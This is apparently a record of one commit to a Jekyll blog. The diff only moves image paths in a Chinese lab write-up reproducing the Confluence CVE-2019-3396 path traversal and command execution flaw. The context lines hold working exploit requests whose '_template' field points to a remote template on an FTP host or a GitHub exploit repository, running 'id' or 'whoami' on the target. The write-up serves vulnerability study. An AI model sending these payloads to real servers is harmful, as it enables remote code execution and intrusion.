

Before and after one commit to FiveAourThe/FiveAourThe.github.io, a Jekyll site: the page built from _posts/2019-09-20- Confluence 路径穿越与命令执行漏洞.md, in a window 1280 px wide. Shown: the part 471-2391 px from the top of the page at 70% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2019-09-20- Confluence 路径穿越与命令执行漏洞.md

````diff
--- a/_posts/2019-09-20- Confluence 路径穿越与命令执行漏洞.md
+++ b/_posts/2019-09-20- Confluence 路径穿越与命令执行漏洞.md
@@ -44,15 +44,15 @@
 ```
 
 访问10.20.40.96:8090，开始安装，选择Trial Installation后点击Next：
-![图片](../../../../Confluence_rce_1.png)
+![图片](../../../../img/Confluence_rce_1.png)
 这里需要去申请一个教育版的证书key:
-![图片](../../../../Confluence_rce_2.png)
+![图片](../../../../img/Confluence_rce_2.png)
 选择证书的时候需要注意选择Server版本的：
 
-![图片](../../../../Confluence_rce_3.png)
+![图片](../../../../img/Confluence_rce_3.png)
 
 输入License Key之后点击Next进入下一步，然后就会验证License Key，验证通过后开始安装，安装等待了五分钟，显示以下界面安装成功：
-![图片](../../../../Confluence_rce_4.png)
+![图片](../../../../img/Confluence_rce_4.png)
 
 ### 搭建FTP Server
 这里为了方便我使用python快速搭建FTP Server。
@@ -113,7 +113,7 @@
 {"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"ftp://10.20.40.95/cmd.vm","cmd":"id"}}}
 ```
 可以看到下图成功执行了id命令：
-![图片](../../../../Confluence_rce_5.png)
+![图片](../../../../img/Confluence_rce_5.png)
 
 如果觉得FTP服务麻烦的也可以使用https服务，我测试的时候也是可以执行命令的，http服务是不行的。
 Github地址：[https://raw.githubusercontent.com/Yt1g3r/CVE-2019-3396_EXP/master/cmd.vm](https://raw.githubusercontent.com/Yt1g3r/CVE-2019-3396_EXP/master/cmd.vm)
@@ -131,7 +131,7 @@
 
 {"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"https://raw.githubusercontent.com/Yt1g3r/CVE-2019-3396_EXP/master/cmd.vm","cmd":"whoami"}}}
 ```
-![图片](../../../../Confluence_rce_6.png)
+![图片](../../../../img/Confluence_rce_6.png)
 
 ## 0x03 指纹
 Confluence有一个非常明显的指纹特征，在响应报文中有两个字段：
````
